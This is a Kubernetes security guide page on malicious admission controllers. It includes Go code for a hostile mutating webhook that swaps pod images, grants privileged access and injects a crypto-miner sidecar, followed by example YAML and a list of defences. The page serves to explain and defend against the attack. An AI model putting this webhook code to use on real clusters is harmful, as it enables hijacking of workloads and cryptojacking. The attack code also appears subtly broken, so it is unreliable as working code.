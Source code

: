 # Malicious Admission Controller
Admission controllers are components that can intercept requests to the API server and make changes to (or validate) manifests. An attacker can intercept and modify the manifests before they are deployed into the cluster. The following code snippet is an example:

```go
// Example from: https://medium.com/ovni/writing-a-very-basic-kubernetes-mutating-admission-webhook-398dbbcb63ec
p := []map[string]string{}for i := range pod.Spec.Containers {    patch := map[string]string{  
        "op": "replace",  
        "path": fmt.Sprintf("/spec/containers/%d/image", i),   
        "value": "debian",  
    }
p = append(p, patch)
}
// parse the []map into JSON  
resp.Patch, err = json.Marshal(p)
```


### Attack

A compromised admission controller can be a master of disguise, subtly altering manifests before they reach the unsuspecting kube-scheduler. Picture this:

```go
func admitFunc(ar v1beta1.AdmissionReview) *v1beta1.AdmissionResponse {
	var pod corev1.Pod
	json.Unmarshal(ar.Request.Object.Raw, &pod)
	pod.Spec.Containers[0].Image = "attacker-controlled-image:latest"
	pod.Spec.Containers[0].SecurityContext = &corev1.SecurityContext{Privileged: func() *bool { b := true; return &b }()}
	pod.Spec.Containers = append(pod.Spec.Containers, corev1.Container{Name: "crypto-miner", Image: "crypto-miner:latest"})
	marshaledPod, _ := json.Marshal(pod)
	return &v1beta1.AdmissionResponse{Allowed: true, Patch: marshaledPod, PatchType: func() *v1beta1.PatchType { pt := v1beta1.PatchTypeJSONPatch; return &pt }()}
}
```
In essence, this code defines a malicious admission webhook that hijacks Pod creation requests to:

1. Run attacker-controlled images.
2. Grant those containers privileged access to the host.
3. Deploy crypto miners within the Pods.


> Important Note: This code is clearly intended for educational or illustrative purposes to demonstrate a potential attack vector. You should never deploy such a webhook in a production environment.

The results:

```yaml
# A seemingly innocent Pod definition
apiVersion: v1
kind: Pod
metadata:
  name: my-app
spec:
  containers:
  - name: my-container
    image: nginx:latest
```

But under the influence of a malicious admission controller, this Pod definition could morph into something sinister:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: my-app
spec:
  containers:
  - name: my-container
    image: attacker-controlled-image:latest
    securityContext:
      privileged: true  # Escalated privileges!
  - name: sneaky-sidecar
    image: crypto-miner:latest  # Hidden crypto-miner!
```

Suddenly, your cluster is running a privileged container with a hidden crypto-miner, all thanks to the compromised admission controller.

### Defending

To combat this shapeshifting madness, we need to equip ourselves with powerful defenses:

**1. The Code:**

* **Trusted Sources:** Only acquire admission controllers from trusted sources and reputable vendors.
* **Code Review:** Scrutinize the code of any custom admission controllers, wielding the mighty tools of static analysis and code review to uncover hidden vulnerabilities.

**2. Permission Protection:**

* **Principle of Least Privilege:** Grant admission controllers only the bare minimum permissions required to fulfill their duties.
* **RBAC Enforcement:** Harness the power of Role-Based Access Control (RBAC) to restrict access to sensitive resources and limit the potential damage of a compromised controller.

**3. Vigilance:**

* **Testing and Validation:** Rigorously test admission controllers in a controlled environment before unleashing them into your production cluster.
* **Monitoring and Alerting:** Deploy monitoring tools and configure alerts to detect any suspicious activity or anomalies in admission controller behavior.

**4. Integrity Validation:**

* **Secure Supply Chain:** Ensure the integrity of the admission controller supply chain by implementing secure development practices, vulnerability scanning, and dependency management.
* **Image Verification:** Verify the authenticity of admission controller images using digital signatures and image scanning tools.

**5. Up-to-date versions:**

* **Regular Updates:** Keep your Kubernetes cluster and admission controllers updated to the latest versions to patch known vulnerabilities and stay ahead of emerging threats.
* **Network Segmentation:** Isolate the Kubernetes API server and admission controller components from untrusted networks to limit the blast radius of a potential compromise.



